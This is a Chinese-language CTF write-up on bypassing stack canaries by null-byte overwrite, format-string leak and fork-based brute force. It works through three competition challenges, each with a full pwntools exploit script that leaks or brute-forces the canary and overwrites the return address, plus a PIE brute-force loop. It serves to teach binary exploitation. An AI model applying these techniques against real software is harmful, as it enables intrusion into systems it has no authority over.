

常见的绕过 canary 的方法

- - -

# 常见的绕过 canary 的方法

## 背景知识

在函数开始时就随机产生一个值，将这个值 canary 放到栈上紧挨 ebp 的上一个位置，当攻击者想通过缓冲区溢出覆盖 ebp 或者 ebp 下方的返回地址时，一定会覆盖掉 canary 的值；当程序结束时，程序会检查 canary 这个值和之前的是否一致，如果不一致，则不会往下运行，从而避免了缓冲区溢出攻击。

## 绕过方式

1.覆盖 00 字符  
2.格式化字符串泄露  
3.爆破 canary

## DASCTF X CBCTF 2023 canary ( 覆盖 00 字符 )

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233646-e2f9b372-b872-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233651-e5cf3108-b872-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233656-e89afa34-b872-1.png)  
这里直接覆盖 00 字节然后泄露 canary

```plain
s('a'*0x19)
r(0x18+6)
canary=u64(r(8))-0x61
leak('canary ',canary)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233716-f49e74c8-b872-1.png)  
覆盖 00，然后泄露出来减去 0x61 即可  
然后后面利用 strcpy 去溢出覆盖返回地址

```plain
backdoor=0x4012BB
ru('you like to leave(MAX 4): ')
sl('2')
sl('a'*(0xa0-0x8)+p64(canary+0xaa)+'a'*8+p64(0x4012c3))
sl('a'*0x78)
```

这里是利用的 strcpy 的一个特性  
strcpy 遇到'\\x00'截断，不过会在最后加'\\x00'  
先填上 canary+0xaa，然后直接利用 strcpy 最后的置 0 就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233741-0355b846-b873-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause()

bss=elf.bss()+0x200

ru('Please input your name: ')
#duan()
#duan()
s('a'*0x19)
r(0x18+6)
canary=u64(r(8))-0x61
leak('canary ',canary)

ret=u64(r(6).ljust(8,'\x00'))#-0xb0
leak('ret ',ret)

backdoor=0x4012BB
ru('you like to leave(MAX 4): ')
sl('2')
sl('a'*(0xa0-0x8)+p64(canary+0xaa)+'a'*8+p64(0x4012c3))
sl('a'*0x78)

itr()
```

## pwn1 ( 格式化字符串泄露 )

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233809-143bf5d0-b873-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233813-16d1142e-b873-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233818-198763da-b873-1.png)  
gdb 找一下偏移

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233826-1e5d8308-b873-1.png)  
先输入一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233836-24561a22-b873-1.png)  
找到偏移了，偏移为 13

```plain
sl('%13$p')
canary=int(r(18),16)
leak('canary ',canary)
```

这里格式化字符串接收不需要 u64 解包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233855-2f679864-b873-1.png)  
覆盖 canary 然后再覆盖返回地址就行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233901-33417540-b873-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')
def duan():
    gdb.attach(p)
    pause()

sl('%13$p')
canary=int(r(18),16)
leak('canary ',canary)
pl='a'*0x28+p64(canary)+'a'*0x8+p64(0x401245)
sl(pl)
itr()
```

## CISCN 2023 funcanary ( 爆破 canary )

### 原理

每次进程重启后 Canary 不同，但是同一个进程中的不同线程的 Cannary 是相同的  
因为 fork 函数会直接拷贝父进程的内存，所以 fork 函数创建的子进程中的 canary 也是相同的。  
最低位为 0x00，之后逐次爆破，如果 canary 爆破不成功，则程序崩溃。  
爆破成功则程序进行下面的逻辑。  
我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233945-4d620c8c-b873-1.png)  
这里有 fork 函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121233952-5169b258-b873-1.png)  
里面就是个栈溢出

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121234000-5656ce9a-b873-1.png)  
虽然有后们，但是保护全开，所以泄露了 canary，还得继续爆破 pie

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121234008-5b6d4d64-b873-1.png)

### 爆破 canary 脚本

```plain
canary = '\x00'
for k in range(7):
    for i in range(256):
        print("正在爆破 Canary 的第" + str(k+1) + "位")
        print("当前的字符为" + chr(i))
        payload=b'a'*0x68 + canary + chr(i)
        print("当前的字符为" + payload)
        p.send(b'a'*0x68 + canary +chr(i))
        data = p.recvuntil("welcome\n")
        if 'stack' in data:
            continue
        else:
            print(str(i + 1) + 'place')
            canary += p8(i)
            print(canary)
            break
```

### 爆破 pie 脚本

```plain
backdoor = 0x0231
while True:
    for i in range(16):
        p.send(b'a'*0x68+canary*2+p16(backdoor))
# offset + canary + rbp + pie_backdoor
        a = p.recvuntil(b'welcome\n', timeout = 0.5)
# timeout 最好还是加上
        if b'welcome\n' in a:
            backdoor += 0x1000
        if b'flag' in a:
# 如果是 flag 开头就改为 flag
            print(a)
            p.interactive()
```

然后在本地写一个 flag:flag{flag\_is\_not\_here}

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121234042-6f789c1e-b873-1.png)  
这里就是成功把 canary 爆破出来了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121234049-739134e6-b873-1.png)  
然后爆破 pie 爆破出了 flag

### exp

```plain
#coding=utf8

import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')

p.recvuntil('welcome\n')
canary = '\x00'
for k in range(7):
    for i in range(256):
        print("正在爆破 Canary 的第" + str(k+1) + "位")
        print("当前的字符为" + chr(i))
        payload=b'a'*0x68 + canary + chr(i)
        print("当前的字符为" + payload)
        p.send(b'a'*0x68 + canary +chr(i))
        data = p.recvuntil("welcome\n")
        if 'stack' in data:
            continue
        else:
            print(str(i + 1) + 'place')
            canary += p8(i)
            print(canary)
            break

backdoor = 0x0231
while True:
    for i in range(16):
        p.send(b'a'*0x68+canary*2+p16(backdoor))
# offset + canary + rbp + pie_backdoor
        a = p.recvuntil(b'welcome\n', timeout = 0.5)
# timeout 最好还是加上
        if b'welcome\n' in a:
            backdoor += 0x1000
        if b'flag' in a:
# 如果是 flag 开头就改为 flag
            print(a)
            p.interactive()
```

canary.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240121234245-b90148b8-b873-1.zip)

pwn1.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240121234248-ba7e49ac-b873-1.zip)

funcanary.zip (0.002 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240121234250-bbddb026-b873-1.zip)
